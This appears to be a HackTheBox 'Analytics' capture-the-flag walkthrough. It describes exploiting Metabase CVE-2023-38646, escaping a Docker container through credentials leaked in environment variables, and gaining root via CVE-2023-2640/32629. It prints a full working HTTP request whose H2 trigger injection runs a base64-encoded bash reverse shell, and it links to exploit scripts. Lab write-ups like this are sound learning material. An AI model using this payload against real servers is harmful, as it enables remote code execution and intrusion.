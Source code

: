 # HackTheBox - Analytics

It started with a portscan as usual.

![Screenshot0](./screenshots/0.png)

We see a web server and SSH server.

So I took a look at the website.

![Screenshot1](./screenshots/1.png)

The __Login__ option at the top right leads us to a subdomain which I entered in `/etc/hosts` and navigated to.

![Screenshot2](./screenshots/2.png)


Now I looked to see if there were any interesting vulnerabilities for __Metabase__.

I quickly found what I was looking for and also found a suitable [POC](https://github.com/shamo0/CVE-2023-38646-PoC).

By calling `/api/session/properties` with the `GET` method I got the session token we need for the exploit and a version number, which also confirms that it is really our vulnerable version.

![Screenshot3](./screenshots/3.png)

I couldn't get a reverse shell with the POC code.
So I fetched the raw `POST` request and modified it a little.


```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "<SESSION_TOKEN>>",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,<BASE64_ENCODED_REV_SHELL>}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

I specified the session token and changed the base64 encoded reverse shell, submitted the request in Burp and got a reverse shell on my netcat listener.

## Docker -> Host

![Screenshot4](./screenshots/4.png)

At this point, it took a while and I got a bit lost.
I quickly found out that I was in a container (Docker).

I dedicated a long time to `h2 Database` and tried to somehow extract passwords from it.

Later I enumerated the system again more precisely.
The script `run_metabase.sh` base under `/app` showed me where to look.

![Screenshot5](./screenshots/5.png)

So I looked into the environment variables using `env` and...

![Screenshot6](./screenshots/6.png)

...Bingo!

The passwords and the username were valid on the host system and I was already out of the Docker and got the first flag.

![Screenshot7](./screenshots/7.png)

## Privilege Escalation

I was also stuck with Privilege Escalation for a long time.

I enumerated and enumerated the system and just couldn't find anything useful.

So towards the end I looked for __recent Zeroday Exploits__ against which the system could still be vulnerable.

Which brought me to __CVE-2023-2640__ / __CVE-2023-32629__.

First of all, I used an exploit oneliner, which gave me a python3 binary with SETUID-cap assigned, which I then used to get root, but still got "Permission denied" when performing any operations that require a root user.

The following [exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) finally worked and I got a shell as `root` and got the final flag.

![Screenshot8](./screenshots/8.png)
 
